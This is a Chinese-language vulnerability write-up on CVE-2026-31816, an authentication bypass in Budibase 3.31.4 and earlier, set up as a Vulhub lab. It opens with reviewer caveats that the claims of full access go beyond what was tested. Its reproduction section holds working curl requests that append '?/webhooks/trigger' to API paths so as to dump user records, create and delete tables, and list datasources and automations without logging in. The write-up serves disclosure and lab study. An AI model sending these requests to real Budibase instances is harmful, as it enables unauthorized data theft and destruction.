



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.31.4, lab3.31.4; valid workspace app ID needed; setup credentials separate from attacker authentication

代码与实验材料：Read/create responses and delete/list examples; tests only subset of asserted all endpoints/resources; no no-suffix control response shown

来源证据范围：Official GHSA and NVD; Vulhub environment not directly linked

- **结论使用边界（1）**：Claims universal CRUD from sample endpoints; distinguish validated sample from mechanism-derived scope。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：No exact fixed release or unauthenticated app-ID discovery procedure。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Budibase Webhook 查询参数认证绕过漏洞 CVE-2026-31816

## 漏洞描述

Budibase 是一个用于创建内部工具、工作流和管理面板的低代码平台。

CVE-2026-31816 是影响 Budibase 3.31.4 及之前版本的严重认证绕过漏洞。该漏洞源于保护所有服务端 API 端点的 `authorized()` 中间件中的实现缺陷。`isWebhookEndpoint()` 函数使用一个未锚定的正则表达式来测试 `ctx.request.url`，在 Koa 框架中这包含完整的 URL 和查询参数。当正则匹配时，`authorized()` 中间件立即返回 `next()`，完全绕过身份验证、授权、角色检查和 CSRF 保护。未经身份验证的远程攻击者只需在 URL 后附加 `?/webhooks/trigger` 或任何 webhook 路径模式变体，即可访问任何服务端 API 端点。

参考链接：

- https://github.com/Budibase/budibase/security/advisories/GHSA-gw94-hprh-4wj8
- https://nvd.nist.gov/vuln/detail/CVE-2026-31816

## 漏洞影响

```
Budibase <= 3.31.4
```

## 环境搭建

Vulhub 执行如下命令启动一个 Budibase v3.31.4 服务：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:10000` 即可看到 Budibase 界面。默认管理员凭据为 `admin@vuln.test:admin123456`。

使用默认凭据登录系统后，创建一个 workspace。




## 漏洞复现

该漏洞可以通过在任何 API 端点 URL 后附加 webhook 路径模式如 `?/webhooks/trigger` 来利用。这会导致 `isWebhookEndpoint()` 函数匹配查询字符串，触发认证绕过。首先需要通过访问 Budibase 实例获取有效的应用 ID，然后只需在查询字符串中添加 webhook 模式即可在无需任何身份验证的情况下访问受保护的 API 端点。

我们已经创建了一个 workspace，应用 ID 为 `app_dev_beac85d930c749d49d466931b4317fad`。一旦获得有效的应用 ID，就可以访问敏感的 API 端点。例如，发送请求在无身份验证的情况下列出所有用户数据：

```
curl -s -X POST "http://your-ip:10000/api/ta_users/search?/webhooks/trigger" \
  -H "Content-Type: application/json" \
  -H "x-budibase-app-id: <TARGETED_WORKSPACE_ID>" \
  -d '{"query":{}}'

{"rows":[{"email":"admin@vuln.test","roleId":"ADMIN","status":"active","_id":"ro_ta_users_us_e51bca2f7a294a85adeab9def54e2bc9","_rev":"1-b97ed8a54fa2dd52c998f7a57bdee40a","createdAt":"2026-03-18T01:53:27.871Z","updatedAt":"2026-03-18T01:53:27.871Z","tableId":"ta_users"}]}
```




响应将包含所有用户记录，包括电子邮件地址和角色，展示了完整的数据渗漏能力。该请求通常需要身份验证并返回 302 重定向到登录页面，但由于认证绕过，它直接返回敏感的用户数据。

您还可以创建、修改或删除数据。在无身份验证的情况下创建新表：

```
curl -s -X POST "http://your-ip:10000/api/tables?/webhooks/trigger" \
  -H "Content-Type: application/json" \
  -H "x-budibase-app-id: <TARGETED_WORKSPACE_ID>" \
  -d '{"name":"hacked_table","schema":{}}'
  
{"_id":"ta_ee11ed083e4b42c2813bc1b1cc1029dd","name":"hacked_table","schema":{},"type":"table","sourceType":"internal","views":{},"createdAt":"2026-03-18T02:06:21.153Z","updatedAt":"2026-03-18T02:06:21.153Z","_rev":"1-ffc19866d05d40ea1264ace3e407302d","primary":["_id"],"sourceId":"bb_internal","sql":true}
```




服务器将响应 HTTP 200 并返回新创建的表 ID 和版本，确认可以在无身份验证的情况下进行任意数据操作。这证明该漏洞提供对所有应用程序资源的完整 CRUD 访问权限，包括表、行、自动化、数据源、查询、视图和插件。

删除表（未经身份验证）：

```
curl -s -X DELETE \
  "http://your-ip:10000/api/tables/<TABLE_ID>/<TABLE_REV>?/webhooks/trigger" \
  -H "x-budibase-app-id: <TARGETED_WORKSPACE_ID>"
```

列出所有数据源（未经身份验证）:

```
curl -s "http://your-ip:10000/api/datasources?/webhooks/trigger" \
  -H "x-budibase-app-id: <TARGETED_WORKSPACE_ID>"
```

列出所有自动化流程（未经身份验证）：

```
curl -s "http://your-ip:10000/api/automations?/webhooks/trigger" \
  -H "x-budibase-app-id: <TARGETED_WORKSPACE_ID>"
```

已确认存在其他未经身份验证的访问 API：

```
- /api/roles?/webhooks/trigger
- /api/integrations?/webhooks/trigger
- /api/views?/webhooks/trigger
- /api/plugins?/webhooks/trigger
```

## 漏洞修复

- 漏洞已修复，建议升级至 [最新版本](https://github.com/Budibase/budibase/releases)。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
